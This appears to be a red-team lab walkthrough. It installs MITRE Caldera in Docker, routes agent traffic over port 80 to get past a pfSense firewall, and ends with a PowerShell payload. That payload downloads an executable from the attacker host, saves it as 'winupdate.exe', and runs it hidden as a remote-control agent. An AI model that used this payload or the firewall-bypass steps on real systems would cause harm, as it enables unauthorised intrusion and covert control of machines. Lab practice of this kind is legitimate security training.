

---


## Installing Caldera using Docker {#3557b0eb61a480b08038e9274c394a08}


[https://www.youtube.com/watch?v=Vdd4lRXB7zE](https://www.youtube.com/watch?v=Vdd4lRXB7zE)


```c++
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
docker build --build-arg VARIANT=full -t caldera .
docker run -it -p 8888:8888 caldera
```


A more optimized approach:


```c++
sudo docker run -d \
  --name caldera-server \
  -p 8888:8888 \
  -p 80:8888 \
  -p 8443:8443 \
  -p 7010:7010 \
  caldera --insecure
```


**Further explanation of the ports:** 

- **`8888:8888`**: You will access the Caldera interface via port 8889 (assuming 8888 is currently occupied by Mythic Jupyter).
- **`8443:8443`**: This is designated as the UI port.
- **`80:8888`**: This mapping is utilized to receive the reverse shell connection from `ws01`.

To view the credentials (the default is typically `admin:admin`), use the following command:


```c++
grep -A 10 "users:" conf/default.yml
```


## Creating the Payload  {#3617b0eb61a480f290bdd64bdfa6bb9a}


To bypass the pfSense firewall, which only permits traffic on ports 80 and 443, follow these steps:

1. On the left-hand menu of the Caldera interface, navigate to **Campaigns → Manage Agents**.
2. Click on **Deploy an agent**.
3. Select **Sandcat** (Caldera's default agent, written in Go, which is highly stable).


**Configuring the Agent Deployment:**

1. **Platform:** Select **Windows**.
2. **`app.contact.http`****:** Modify this value to `http://<Your_Kali_Machine_IP>:80`. This specific configuration step is crucial for successfully bypassing the firewall.
3. Caldera will automatically generate a PowerShell command block




**Execution:**

1. Copy the entirely generated command block. Switch over to the `WS1` machine, open PowerShell (standard User or Administrator privileges both work), paste the command, and execute it.
2. Return to the Caldera interface; you should now observe a new agent populating in the list, highlighted in green.

The attack scenario is now ready! 


Here is the provided payload structure to be executed on `ws01`:


```c++
$server = "http://192.168.253.128:80";
$url = "$server/file/download";
$exePath = "$env:TEMP\winupdate.exe";

$wc = New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");

$data = $wc.DownloadData($url);

get-process | ? {$_.modules.filename -like $exePath} | stop-process -f;
rm -force $exePath -ea ignore;

[io.file]::WriteAllBytes($exePath, $data) | Out-Null;
Start-Process -FilePath $exePath -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

